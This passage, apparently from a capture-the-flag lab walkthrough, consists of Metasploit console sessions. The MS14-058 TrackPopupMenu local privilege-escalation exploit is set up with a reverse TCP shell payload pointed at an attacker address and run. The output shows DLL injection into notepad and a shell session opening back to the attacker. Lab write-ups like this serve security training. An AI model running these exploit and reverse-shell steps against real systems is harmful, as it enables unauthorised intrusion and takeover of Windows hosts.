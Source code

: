 [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > 

```

## Meterpreter : ms14_058 : exploit/windows/local/ms14_058_track_popup_menu
```
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu

msf exploit(windows/local/ms14_058_track_popup_menu) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf exploit(windows/local/ms14_058_track_popup_menu) > show options

Module options (exploit/windows/local/ms14_058_track_popup_menu):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf exploit(windows/local/ms14_058_track_popup_menu) > set lhost 10.10.14.32
lhost => 10.10.14.32
msf exploit(windows/local/ms14_058_track_popup_menu) > set lport 4449
lport => 4449
msf exploit(windows/local/ms14_058_track_popup_menu) > show target
[-] Invalid parameter "target", use "show -h" for more information
msf exploit(windows/local/ms14_058_track_popup_menu) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.32:4449 
[*] Launching notepad to host the exploit...
[+] Process 2388 launched.
[*] Reflectively injecting the exploit DLL into 2388...
[*] Injecting exploit into 2388...
[*] Exploit injected. Injecting payload into 2388...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (10.10.14.32:4449 -> 10.10.10.15:1034) at 2019-09-08 16:20:41 +0200
